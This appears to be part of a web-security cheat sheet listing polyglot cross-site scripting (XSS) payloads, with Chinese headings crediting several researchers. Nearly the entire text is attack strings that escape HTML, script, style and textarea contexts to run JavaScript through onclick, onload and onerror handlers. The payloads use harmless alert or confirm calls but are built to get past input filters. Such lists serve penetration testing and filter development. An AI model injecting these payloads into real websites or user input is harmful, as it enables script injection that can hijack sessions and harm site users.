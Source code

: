 ```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

多语言XSS - Ashar Javed

```javascript
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

多语言XSS - Mathias Karlsson

```javascript
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

多语言XSS - Rsnake

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

多语言XSS - Daniel Miessler

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```

多语言XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
![Alt text](./DWiLk3UX4AE0jJs.jpg)


```javascript
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
```
